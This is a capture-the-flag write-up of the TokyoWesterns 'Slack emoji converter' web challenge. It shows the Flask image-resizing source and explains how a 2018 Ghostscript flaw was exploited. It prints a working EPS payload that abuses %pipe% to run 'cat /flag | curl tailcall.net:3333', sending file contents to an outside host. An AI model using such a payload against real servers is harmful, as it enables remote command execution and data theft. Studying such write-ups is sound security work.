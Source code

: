# Slack emoji converter (web, 267p, 29 solved)

```
create your own emoji for Slack at http://emoji.chal.ctf.westerns.tokyo
```

This task is a perfect example of CTF challenge naming conventions - because the challenge has absolutely zero relation to slack, emojis, and conversions.

We are expected to exploit the website http://emoji.chal.ctf.westerns.tokyo/.

The first challenge was to figure out how to drag&drop files from my heavily modified linux installation with i3wm and progressively more completely corrupted APT database. To be hones, I just took the easy way out and used Windows VM.

Anyway the real challenge was to read the source code and find vulnerability:

```python
from flask import (
    Flask,
    render_template,
    request,
    redirect,
    url_for,
    make_response,
)
from PIL import Image
import tempfile
import os


app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/conv', methods=['POST'])
def conv():
    f = request.files.get('image', None)
    if not f:
        return redirect(url_for('index'))
    ext = f.filename.split('.')[-1]
    fname = tempfile.mktemp("emoji")
    fname = "{}.{}".format(fname, ext)
    f.save(fname)
    img = Image.open(fname)
    w, h = img.size
    r = 128/max(w, h)
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname)
    response = make_response()
    response.data = open(fname, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname)
    return response
```

See it yet? No? Probably because there's none. This means that there is 90% chance that ghostscript guys screwed up something again and whole internet is on fire.
So we quickly googled something equivalent to `how do I pwn ghostscript in 2018` and found [this gem](http://openwall.com/lists/oss-security/2018/08/21/2): http://openwall.com/lists/oss-security/2018/08/21/2. This looked really interesting (announcement was from only few days ago!), so I decided to give it a try.

Of course not a single exploit worked on my broken good-for-nothing machine, so I almost lost hope at that moment. We almost spent 3 more hours searching for a different solution. Fortunately, I decided to craft one more exploit and send it to remote server as a last resort (via my Windows VM, of course). And you guessed it, it worked. Interesting fragment:

```
a5
1 .pushpdf14devicefilter
save
legal
restore
mark /OutputFile (%pipe%cat /flag | curl tailcall.net:3333 -X POST -d @/dev/stdin) currentdevice putdeviceprops
showpage
```

Whole exploit file [circle.eps](circle.eps).

`TWCTF{watch_0ut_gh0stscr1pt_everywhere}`